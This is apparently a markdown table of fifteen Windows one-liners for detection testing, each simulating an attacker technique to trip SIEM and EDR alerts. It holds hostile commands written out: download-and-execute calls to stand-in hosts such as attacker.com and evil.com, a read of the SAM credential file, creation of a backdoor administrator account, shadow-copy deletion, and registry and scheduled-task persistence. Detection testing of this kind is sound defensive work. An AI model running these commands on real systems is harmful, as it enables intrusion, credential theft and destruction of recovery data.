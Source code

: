 # 🔥 Atomic Red Team One-Liners for Detection Testing

These are one-liners designed to simulate malicious behavior and trigger alerts in your security stack (SIEM, EDR, etc.). Use only in isolated lab environments.

| # | Command | Description |
|--|---------|-------------|
| 1 | `powershell -Enc UwB0AGEAcgB0AC0AcwBsAGUAZQBwACAAMQAwAA==` | Base64-encoded PowerShell (`Start-sleep 10`) - test for obfuscated PowerShell |
| 2 | `certutil -urlcache -split -f http://example.com/evil.exe evil.exe` | Download file using `certutil` - simulates malware staging |
| 3 | `reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Evil /t REG_SZ /d "cmd.exe /c calc.exe"` | Persistence via registry Run key |
| 4 | `wmic process call create "powershell.exe -Command IEX (New-Object Net.WebClient).DownloadString('http://bad.site/payload.ps1')"` | WMIC command execution |
| 5 | `rundll32.exe javascript:"\\..\\mshtml,RunHTMLApplication ";document.write();alert('hi')` | JavaScript abuse via `rundll32.exe` |
| 6 | `schtasks /create /tn "EvilTask" /tr "cmd.exe /c calc.exe" /sc minute /mo 5` | Creates scheduled task - classic persistence method |
| 7 | `bcdedit /set {current} bootstatuspolicy ignoreallfailures` | Disables automatic repair - potential ransomware prelude |
| 8 | `powershell -Command "Get-Content C:\\Windows\\System32\\config\\SAM"` | Attempts access to SAM file - privilege abuse test |
| 9 | `net user backdoor Pass123! /add` | Creates local user - test for unauthorized account creation |
|10 | `net localgroup administrators backdoor /add` | Adds user to admin group - privilege escalation |
|11 | `vssadmin delete shadows /all /quiet` | Deletes volume shadow copies - common ransomware tactic |
|12 | `curl http://evil.com/malware.ps1 -o malware.ps1` | Use of `curl` for file retrieval |
|13 | `bitsadmin /transfer myjob /download /priority high http://malicious/evil.exe C:\\evil.exe` | Uses BITS for file download |
|14 | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/evil.ps1')"` | PowerShell obfuscation & execution |
|15 | `echo malicious >> C:\\Windows\\System32\\drivers\\etc\\hosts` | Tampering with `hosts` file - DNS redirection test |
